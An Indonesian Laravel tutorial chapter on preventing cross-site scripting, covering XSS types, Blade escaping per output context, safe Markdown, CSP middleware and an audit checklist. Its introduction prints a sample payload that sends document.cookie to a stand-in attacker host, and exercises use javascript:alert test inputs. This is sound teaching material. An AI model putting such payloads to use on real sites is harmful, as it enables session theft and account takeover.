

# Pencegahan XSS

**XSS** (*Cross-Site Scripting*) terjadi ketika aplikasi menampilkan data yang tidak tepercaya sebagai HTML atau JavaScript, sehingga skrip penyerang berjalan di browser pengguna lain. Akibatnya bisa
berupa pencurian data, pengambilalihan akun, atau tindakan atas nama korban (termasuk melewati perlindungan CSRF). Blade melindungi secara bawaan, tetapi hanya bila kamu memakainya dengan benar.
Sub bab ini membahas jenis XSS, konteks keluaran yang berbeda, pembersihan HTML, dan kebijakan CSP.

## Tujuan Pembelajaran

Setelah menyelesaikan sub bab ini, kamu dapat:

- [ ] Membedakan XSS tersimpan (*stored*), terpantul (*reflected*), dan berbasis DOM.
- [ ] Menjelaskan mengapa `{{ }}` aman dan kapan `{!! !!}` berbahaya.
- [ ] Mengenali konteks keluaran: isi HTML, atribut, URL, JavaScript, dan CSS.
- [ ] Menampilkan Markdown atau HTML pengguna dengan aman (tanpa HTML mentah).
- [ ] Menambahkan header keamanan sederhana (CSP) lewat middleware.
- [ ] Mengaudit proyek untuk titik XSS.

## Prasyarat

- [Menampilkan Data (bab Blade)](../level-03/03-03-displaying-data.md) dan [Sintaks Blade](../level-03/03-02-blade-syntax.md).
- [Perlindungan CSRF](05-20-csrf-protection.md).
- [HTML dasar](../level-00/00-01-introduction-to-web-development.md).

## Pengantar

Komentar pengunjung `<script>fetch('https://jahat.test?c='+document.cookie)</script>` yang ditampilkan mentah akan berjalan di browser setiap pembaca, termasuk admin. Karena skrip itu berjalan atas
nama situsmu, ia dapat membaca halaman, token CSRF, dan melakukan aksi apa pun.

## Penjelasan Konsep

### Jenis XSS

| Jenis | Sumber | Contoh |
|---|---|---|
| Tersimpan (*stored*) | Disimpan di database lalu ditampilkan ke orang lain | Komentar dengan `<script>` |
| Terpantul (*reflected*) | Dari URL/form dan langsung dicetak kembali | `?q=<script>` ditampilkan di halaman hasil |
| Berbasis DOM | JavaScript sisi klien menulis data tak tepercaya ke DOM | `element.innerHTML = location.hash` |

### Pertahanan utama: *escaping* sesuai konteks

| Konteks | Contoh | Cara aman |
|---|---|---|
| Isi HTML | `<p>…</p>` | `{{ $teks }}` (htmlspecialchars) |
| Atribut HTML | `<input value="…">` | `{{ $teks }}` dan selalu beri tanda kutip |
| URL | `<a href="…">` | Validasi skema (`https:`/`http:`); `{{ }}` saja tidak menghentikan `javascript:` |
| JavaScript | `<script> var x = …;</script>` | `Illuminate\Support\Js::from($data)` |
| CSS | `<style>… </style>` | Jangan menyisipkan data pengguna |

Blade `{{ $x }}` memanggil `htmlspecialchars`, sehingga `<` menjadi `&lt;`. Itu mencukupi untuk isi HTML dan atribut yang diberi tanda kutip.

### Titik berbahaya

```html
{!! $komentar !!}                       {{-- HTML mentah: berbahaya untuk data pengguna --}}
<a href="{{ $url }}">Situs</a>          {{-- bila $url = "javascript:alert(1)" masih berbahaya --}}
<script>var data = {{ $json }};</script>   {{-- escape HTML bukan escape JavaScript --}}
<div onclick="hapus({{ $id }})">…</div>    {{-- atribut event: konteks JavaScript --}}
```

Perbaikan:

```html
{{ $komentar }}
@if (\Illuminate\Support\Str::startsWith($url, ['http://', 'https://']))
    <a href="{{ $url }}" rel="nofollow noopener">Situs</a>
@endif
<script>var data = {{ \Illuminate\Support\Js::from($data) }};</script>
<button data-id="{{ $id }}">…</button>   {{-- ambil lewat JavaScript, bukan atribut event --}}
```

Validasi URL sebaiknya juga dilakukan saat input (`url`, `starts_with:http://,https://`).

### Menampilkan Markdown dengan aman

Jika pengguna boleh memformat teks, jangan mengizinkan HTML mentah. Laravel menyertakan CommonMark; `Str::markdown` menerima opsi:

```php-inline
use Illuminate\Support\Str;

{!! Str::markdown($artikel->body, ['html_input' => 'strip', 'allow_unsafe_links' => false]) !!}
```

| Opsi | Efek |
|---|---|
| `'html_input' => 'strip'` | Menghapus HTML mentah di dalam Markdown |
| `'allow_unsafe_links' => false` | Menolak tautan berskema berbahaya (`javascript:`) |

Karena keluaran dicetak dengan `{!! !!}`, keamanannya sepenuhnya bergantung pada dua opsi itu. Alternatif yang lebih aman: simpan Markdown, ubah ke HTML hanya untuk konten yang dibuat penulis tepercaya, dan
tetap `{{ }}` untuk konten pengunjung.

### HTML kaya dari pengguna

Menyaring HTML dengan `strip_tags` atau regex **tidak aman**. Bila benar-benar perlu HTML dari pengguna, gunakan pustaka *sanitizer* yang terpelihara (daftar putih tag/atribut), yang berarti menambah
dependensi dan memerlukan persetujuan sebelum dipasang pada proyek nyata. Materi ini tidak memasang pustaka tambahan.

### Pertahanan berlapis: CSP dan cookie

| Lapis | Fungsi |
|---|---|
| Cookie `HttpOnly` | Skrip tidak bisa membaca cookie sesi (bawaan Laravel) |
| Header `Content-Security-Policy` | Membatasi dari mana skrip boleh dimuat/dijalankan |
| Header `X-Content-Type-Options: nosniff` | Mencegah browser menebak tipe konten |
| `rel="noopener"` pada tautan eksternal | Mencegah akses `window.opener` |

Middleware sederhana untuk header:

File: `app/Http/Middleware/SecurityHeaders.php`

```php
<?php

namespace App\Http\Middleware;

use Closure;
use Illuminate\Http\Request;
use Symfony\Component\HttpFoundation\Response;

class SecurityHeaders
{
    public function handle(Request $request, Closure $next): Response
    {
        $response = $next($request);

        $response->headers->set('X-Content-Type-Options', 'nosniff');
        $response->headers->set('Referrer-Policy', 'strict-origin-when-cross-origin');
        // CSP dasar; sesuaikan bila memakai CDN. Perhatikan: server Vite (npm run dev) memerlukan izin tambahan.
        $response->headers->set('Content-Security-Policy', "default-src 'self'; img-src 'self' data:; style-src 'self' 'unsafe-inline'; script-src 'self'");

        return $response;
    }
}
```

Pasang ke grup `web` di `bootstrap/app.php` (`$middleware->web(append: [SecurityHeaders::class]);`). Server pengembangan Vite (`npm run dev`) memuat skrip dari alamat lain dan akan
diblokir oleh CSP ketat ini; terapkan CSP hanya di produksi (`if (app()->isProduction())`) atau tambahkan alamat Vite ke kebijakan selama pengembangan. Dokumentasi Vite juga menyediakan dukungan *nonce* CSP.

### Keamanan: daftar periksa audit

- [ ] Semua `{!! !!}` ditinjau; adakah data pengguna di dalamnya?
- [ ] Data ke JavaScript lewat `Js::from`.
- [ ] URL dari pengguna divalidasi skemanya.
- [ ] Tidak ada atribut event (`onclick=`) yang menyisipkan data.
- [ ] Markdown memakai `html_input => strip`.
- [ ] Header keamanan dan CSP di produksi.

## Cara Kerja



## Contoh Praktik

Kamu membuktikan XSS tersimpan pada komentar, memperbaikinya dengan `{{ }}`, menguji tautan `javascript:`, menampilkan Markdown dengan aman, dan memasang header keamanan.

## Penjelasan Kode

Pada `articles/show.blade.php`, versi rentan (hanya untuk percobaan lokal sementara):

```html
<p>{!! $comment->body !!}</p>
```

Versi aman: `<p>{{ $comment->body }}</p>` (seperti di proyek). Untuk tautan situs penulis:

```html
@if ($comment->website && \Illuminate\Support\Str::startsWith($comment->website, ['http://', 'https://']))
    <a href="{{ $comment->website }}" rel="nofollow noopener">Situs</a>
@endif
```

## Implementasi Langkah demi Langkah

### Langkah 1: buktikan XSS tersimpan

Ubah sementara `{{ $comment->body }}` menjadi `{!! $comment->body !!}`, kirim komentar ``, buka halaman artikel: kotak peringatan muncul.

### Langkah 2: perbaiki

Kembalikan ke `{{ }}` dan muat ulang. Komentar tampil sebagai teks; periksa sumber HTML: `&lt;img ...`.

### Langkah 3: uji URL berbahaya

Simpan komentar atau profil dengan `website=javascript:alert(1)`; tambahkan tautan tanpa validasi skema, klik (berbahaya), lalu terapkan `startsWith` dan validasi `url`.

### Langkah 4: Markdown aman

Di Tinker:

```php-inline
use Illuminate\Support\Str;

Str::markdown('**tebal** <script>alert(1)</script> [x](javascript:alert(1))');
Str::markdown('**tebal** <script>alert(1)</script> [x](javascript:alert(1))', ['html_input' => 'strip', 'allow_unsafe_links' => false]);
```

Bandingkan kedua keluaran.

### Langkah 5: header keamanan

Buat middleware, daftarkan di grup `web`, dan periksa:

```bash
curl -s -I http://127.0.0.1:8000/artikel | grep -i -E "content-security|nosniff|referrer"
```

### Langkah 6: audit

```bash
grep -rn "{!!" resources/views
```

Tinjau setiap hasil.

### Langkah 7: catat di Git

```bash
git add app bootstrap resources
git commit -m "Tambah header keamanan dan audit XSS"
```

Pastikan percobaan `{!! !!}` pada komentar sudah dikembalikan.

## Eksekusi dan Verifikasi

| Langkah | Cara memverifikasi |
|---|---|
| 1 | Kotak peringatan muncul (bukti kerentanan) |
| 2 | Tidak ada kotak peringatan; sumber memuat entitas HTML |
| 4 | Keluaran aman tidak memuat `<script>` dan tautan `javascript:` |
| 5 | Header muncul pada respons |
| 6 | Tidak ada `{!!` yang memuat data pengguna |

## Hasil yang Diharapkan

| Uji | Hasil |
|---|---|
| Komentar `` dengan `{{ }}` | Ditampilkan sebagai teks |
| Markdown dengan opsi aman | `<script>` dihapus; tautan berbahaya tidak aktif |
| `curl -I` | Memuat `X-Content-Type-Options: nosniff` dan `Content-Security-Policy` |

Hasil ini diturunkan dari dokumentasi dan belum dijalankan oleh penulis materi; cocokkan dengan hasilmu.

## Kesalahan Umum dan Pemecahan Masalah

| Gejala | Penyebab | Cara mengenali | Solusi | Pencegahan |
|---|---|---|---|---|
| Skrip komentar berjalan | `{!! !!}` pada data pengguna | Kotak peringatan | Ganti `{{ }}` | Audit `{!!` |
| Tautan `javascript:` bekerja | Tidak ada validasi skema | Klik menjalankan skrip | Validasi `http(s)` | Aturan `url` + cek skema |
| Aset Vite diblokir | CSP terlalu ketat di `npm run dev` | Konsol: pelanggaran CSP | CSP hanya di produksi / izinkan alamat Vite | Pisahkan lingkungan |
| `json_encode` dalam `{{ }}` rusak | Escape HTML bukan JS | Data kacau | `Js::from` | Pakai helper |
| `strip_tags` dianggap aman | Bisa dilewati | Payload lolos | Gunakan sanitizer atau Markdown ketat | Hindari `strip_tags` |
| Markdown mengeluarkan HTML pengguna | Opsi tidak diatur | `<script>` ada | `html_input => strip` | Selalu atur opsi |

## Latihan Praktik

### Latihan dasar

**D1. Pilih konteks**
- *Masalah:* tentukan cara mencetak.
- *Persyaratan:* untuk (a) nama di `<h1>`, (b) nilai atribut `title`, (c) URL `href`, (d) objek ke JavaScript, tulis cara mencetak yang aman.
- *Perilaku yang diharapkan:* (a) `{{ }}`, (b) `{{ }}` + kutip, (c) validasi skema + `{{ }}`, (d) `Js::from`.
- *Tujuan belajar:* escaping per konteks.

### Latihan implementasi

**I1. Pratinjau Markdown aman**
- *Masalah:* penulis ingin Markdown pada isi artikel.
- *Persyaratan:* tampilkan `body` lewat `Str::markdown` dengan opsi aman, uji payload `<script>`, ``, dan `[x](javascript:...)`.
- *Perilaku yang diharapkan:* tidak ada payload yang aktif.
- *Tujuan belajar:* menampilkan Markdown aman.

**I2. CSP bertahap**
- *Masalah:* ingin CSP tanpa merusak pengembangan.
- *Persyaratan:* terapkan CSP hanya saat `app()->isProduction()` dan uji dengan `APP_ENV=production` lokal; catat pelanggaran di konsol browser.
- *Perilaku yang diharapkan:* halaman berfungsi dengan CSP.
- *Tujuan belajar:* menerapkan CSP.

### Latihan tantangan

**T1. Pencarian payload**
- *Masalah:* tim menguji ketahanan.
- *Persyaratan:* kumpulkan lima payload XSS umum (dari OWASP), masukkan ke semua form proyek, dan catat hasil tampilnya (teks vs aktif).
- *Perilaku yang diharapkan:* tidak ada yang aktif; bila ada, perbaiki.
- *Tujuan belajar:* menguji XSS secara sistematis.
- *Catatan:* kerjakan mandiri; tidak ada kunci jawaban.

## Uji Pemahaman

1. Apa beda XSS tersimpan dan terpantul?
2. Mengapa `{{ }}` mencegah XSS pada isi HTML?
3. Mengapa `{{ }}` tidak cukup untuk atribut `href`?
4. Bagaimana menyerahkan data ke JavaScript dengan aman?
5. Apa fungsi CSP?
6. Mengapa `strip_tags` tidak dianggap aman?

??? success "Kunci jawaban singkat"
    1. Tersimpan: payload ada di database; terpantul: dari request dan langsung dicetak.
    2. `htmlspecialchars` mengubah `<` dan `>` menjadi entitas.
    3. Skema `javascript:` tetap bisa dijalankan; skema perlu divalidasi.
    4. `Illuminate\Support\Js::from`.
    5. Membatasi sumber skrip yang boleh dijalankan.
    6. Dapat dilewati dengan payload yang dirancang khusus.

## Ringkasan

- XSS menjalankan skrip penyerang di browser korban; ada bentuk tersimpan, terpantul, dan DOM.
- Escape sesuai konteks: `{{ }}`, validasi URL, `Js::from`; hindari `{!! !!}` untuk data pengguna.
- Markdown aman dengan `html_input => strip`; sanitizer terpelihara untuk HTML kaya.
- Tambahkan cookie `HttpOnly`, CSP, dan header keamanan sebagai pertahanan berlapis.

Selanjutnya: *Pencegahan SQL Injection*, menjaga query tetap aman.

## Referensi Resmi

- [Laravel: Displaying Data](https://laravel.com/docs/13.x/blade#displaying-data)
- [Laravel: Rendering JSON (Js::from)](https://laravel.com/docs/13.x/blade#rendering-json)
- [OWASP: XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [MDN: Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
